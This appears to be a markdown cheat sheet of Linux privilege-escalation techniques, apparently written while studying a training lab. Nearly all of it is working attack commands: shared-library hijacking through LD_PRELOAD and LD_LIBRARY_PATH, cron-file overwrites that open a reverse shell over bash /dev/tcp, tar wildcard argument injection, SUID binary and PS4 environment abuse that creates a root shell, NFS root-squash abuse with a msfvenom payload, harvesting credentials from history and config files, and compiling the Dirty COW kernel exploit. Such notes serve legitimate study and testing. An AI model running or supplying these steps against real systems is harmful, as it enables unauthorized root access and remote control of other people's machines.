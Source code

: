#PrivEsc #Linux 

`mkpasswd -m sha-512 [newpassword] - Generate new password hash

**LD_RELOAD:** Loads a shared object before others when the program is run

**LD_LIBRARY_PATH:** Provides a list of directories where shared libraries are searched for first

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c` - Create a shared object

`sudo LD_PRELOAD=/tmp/preload.so [program you can run as root]` - Get a root shell

`ldd [program location (that you can run as root)]` - See which libraries are used by the program

`gcc -o /tmp/[library name] -shared -fPIC library_path.c` - Create a shared object with the same name as one of the libraries

`sudo LD_LIBRARY_PATH=/tmp [program]` - Get a root shell

## Cron

`#!/bin/bash  `
`bash -i >& /dev/tcp/[ip address]/4444 0>&1` - to replace with the contents of a Cron file

Cron jobs - PATH:

`#!/bin/bash  `
  
`cp /bin/bash /tmp/rootbash  `
`chmod +xs /tmp/rootbash` - Create a sh file with the name of the one that is run by Cron

`chmod +x /home/user/overwrite.sh` - Make it executable

`/tmp/rootbash -p` - Run the file to get a root shell

Cron jobs - Wildcards:

`touch /home/user/--checkpoint=1`
`touch /home/user/--checkpoint-action=exec=shell.elf` - Add those 2 files to where cron will run the tar command and it will treat those as arguments, executing the shell

## SUID/GUID

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` - Find all the SUID/GUID in the machine

**/usr/local/bin/suid-so:**

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` - Search the output of open/access calls and for no such file errors

`mkdir /home/user/.config` - Make a config file for a shared object

`gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.so(contains a shell code)` - Compile the code into a shared object location

Execute the suid-so file

**/usr/local/bin/suid-env:**

`strings /usr/local/bin/suid-env` - Search for strings of printable characters

`gcc -o service /home/user/tools/suid/service.c` - The service executable being called without a full path so we compile a file with a shell code

`PATH=.:$PATH - Prepend the current directory to the path variable`

`/usr/local/bin/suid-env` - run the file to get a root shell

**/usr/local/bin/suid-env2:**

`/bin/bash --version` - Verify that the version is less than 4.2-048

`function /usr/sbin/service { /bin/bash -p; }` - Create a bash function to execute a new bash shell (-p to preserve permissions)

`export -f /usr/sbin/service` - Export the function

`/usr/local/bin/suid-env2` Run the executable to get root

**Only works for bash versions below 4.4:**

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2` - Run the executable with bash debugging enabled and the PS4 variable set to an embedded command which creates and SUID version of /bin/bash

`/tmp/rootbash -p` - Run the rootbash file to gain privileges

## History files

`cat ~/.*history | less` - View the contents of all hidden history files in the user's home directory

## Config files

`cat /home/user/myvpn.ovpn` - Can contain reference to a location where root credentials can be found

## SSH keys

`chmod 600 [key]` - Change the permissions of a key

`ssh -i key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@[ip address]` - Login using the key (with additional settings)

## NFS

Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user

`cat /etc/exports` - Check NFS configuration

`mkdir /tmp/nfs`
`mount -o rw,vers=3 [ip address]:/tmp /tmp/nfs` - In your own machine create a mount point and than mount the tmp share

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf` - a payload which calls /bin/bash

`chmod +xs /tmp/nfs/shell.elf` - Make sure the file is executable and set the SUID permissions

## Kernel Exploits

**Only use as last resort, can break the system**

`perl linux-exploit-suggester-2.pl` - run **Linux Exploit Suggester 2** to identify potential kernel exploits

`gcc -pthread c0w.c -o c0w` - Compile the Dirty COW exploit

`./c0w` - run the exploit, can take several minutes

`/usr/bin/passwd` - To gain a root shell

`scp [file name] [username]@[ip address]:/dev/shm` - Copy a file to a remote host